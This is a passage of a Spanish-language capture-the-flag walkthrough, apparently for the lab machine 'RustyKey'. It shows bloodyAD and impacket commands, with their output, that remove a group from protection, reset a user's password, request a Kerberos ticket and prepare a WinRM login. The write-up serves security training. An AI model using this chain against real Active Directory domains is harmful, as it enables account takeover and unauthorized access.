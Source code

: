 ### Eliminación del grupo PROTECTED OBJECTS

```shell
ntpdate rustykey.htb ; python3 bloodyAD.py -k --host dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p 'Rusty88!' remove groupMember 'PROTECTED OBJECTS' 'IT'
```

Info:

```
2025-10-15 11:31:34.757410 (-0700) +4.147917 +/- 0.014059 rustykey.htb 10.10.11.75 s1 no-leap
CLOCK: time stepped by 4.147917
[+] IT removed from PROTECTED OBJECTS
```

### Cambio de contraseña del usuario BB.MORGAN

```shell
ntpdate rustykey.htb ; python3 bloodyAD.py -k --host dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p 'Rusty88!' set password bb.morgan 'P@ssw0rd!'
```

Info:

```
2025-10-15 11:37:24.005034 (-0700) +0.944120 +/- 0.013643 rustykey.htb 10.10.11.75 s1 no-leap
CLOCK: time stepped by 0.944120
[+] Password changed successfully!
```

Con esto veremos que cambiamos la contraseña del usuario `BB.MORGAN` de forma correcta por lo que vamos a solicitar el `TGT` del usuario con esta nueva contraseña.

```shell
ntpdate rustykey.htb ; impacket-getTGT rustykey.htb/'bb.morgan':'P@ssw0rd!'
```

Info:

```
2025-10-15 11:39:52.365273 (-0700) +14.837275 +/- 0.013892 rustykey.htb 10.10.11.75 s1 no-leap
CLOCK: time stepped by 14.837275
/home/kali/Desktop/rustykey/bloodyAD/.venv/lib/python3.13/site-packages/impacket/version.py:12: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in bb.morgan.ccache
```

Ahora exportaremos la variable de `kerberos` de esta forma:

```shell
export KRB5CCNAME=bb.morgan.ccache
```

Y con esto ya nos podremos conectar con dicho usuario por `WinRM` utilizando la autenticacion de `kerberos`.
